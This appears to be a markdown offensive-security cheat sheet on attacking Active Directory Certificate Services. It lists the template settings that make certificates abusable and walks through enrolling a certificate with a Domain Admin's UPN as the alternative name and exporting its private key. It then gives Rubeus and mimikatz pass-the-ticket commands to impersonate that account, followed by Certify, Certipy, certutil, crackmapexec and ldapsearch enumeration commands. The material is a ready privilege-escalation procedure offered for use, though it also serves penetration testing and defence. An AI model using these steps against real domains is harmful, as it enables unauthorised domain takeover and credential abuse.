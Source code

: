 ## Possible tools to use: PSPKIAudit, Certify https://github.com/GhostPack/Certify , Certipy https://github.com/ly4k/Certipy

## Poisonous parameter combination on certificates

#### 1) Client Authentication = Can be used for client authentication

#### 2) Certificate Permissions = We have the required permissions to use the certificate template (Allow enroll/Allow Full Control)

#### 3) CT_FLAG_ENROLEE_SUPPLIES_SUBJECT = The certificate template allows us to specify the Subject Alternative Name (SAN) (Value=1)

#### 4) CTPRIVATEKEY_FLAG_EXPORTABLE_KEY = The certificate will be exportable with the private key

## TIP: Disable Restricted Admin mode

#### 1) Start -> Run

#### 2) mmc 

#### 3) Click file -> Add/Remove Snap-in

#### 4) Add the certificates snap-in and make sure to select Computer Account and Local computer on the prompts

#### 5) OK

## Request a personal certificate

#### 1) Right click on Personal and select All Tasks -> Request New Certificate

#### 2) Click Next twice to select the AD Enrollment policy

#### 3) You will see that we have one template that we can request, but first, we need to provide additional information.

#### 4) More information warning (click)

#### 5) Change the Subject name Type option to Common Name and provide any value, since it doesn't matter, and click Add.

#### 6) Change the Alternative name Type option to User Principal Name (UPN)

#### 7) Supply the UPN of the user you want to impersonate ( It can be a Domain Admin account NAME@DOMAIN and click Add

#### 8) Apply and OK. Select certificate and click Enroll

## Export Certificate

#### 9) Right click on the certificate and select ALL Tasks -> Export 

#### 10) Click next, select yes, export the private key, then next

#### 11) Next, then set password for the certificate since the private key cannot be exported without a password

#### 12) Next and select a location to store certificate

#### 13) Next and Finally, Finish.

## Impersonation through a certificate

#### 1) Rubeus.exe asktgt /user:USER /enctype:aes256 /certificate:PATH/TO/CERTIFICATE /password:CERT_PASS /outfile:TICKET.KIRBI /domain:DOMAIN /dc:DC_IP

#### 2) mimikatz.exe

#### 3) privilege::debug

#### 4) kerberos::ptt TICKET.KIRBI

#### 5) exit

#### 6) ENJOY!

# AD Certificate Services Enumeration

### AD's certificate services can be enumerated through LDAP queries, revealing information about Enterprise Certificate Authorities (CAs) and their configurations. This is accessible by any domain-authenticated user without special privileges. Tools like Certify and Certipy are used for enumeration and vulnerability assessment in AD CS environments.

## Commands:

 - Certify.exe cas (Enumerate trusted root CA certificates and Enterprise CAs with Certify)

 - Certify.exe find /vulnerable (Identify vulnerable certificate templates with Certify)

 - certipy find -vulnerable -u john@corp.local -p Passw0rd -dc-ip 172.16.126.128 (Use Certipy for enumeration and identifying vulnerable templates)

### Enumerate Enterprise CAs and certificate templates with certutil

 - certutil.exe -TCAInfo

 - certutil -v -dstemplate
 
 - certutil.exe -config - -ping , certutil -dump (Enumerate AD Enterprise CAs)

 - crackmapexec ldap domain.lab -u username -p password -M adcs (Find ADCS server)

 - ldapsearch -H ldap://dc_IP -x -LLL -D 'CN=USER,OU=USERS,DC=DOMAIN,DC=LOCAL' -w 'PASSWORD' -b "CN=Enrollment Services,CN=Public Key Services,CN=Services,CN=CONFIGURATION,DC=DOMAIN,DC=LOCAL" dNSHostName


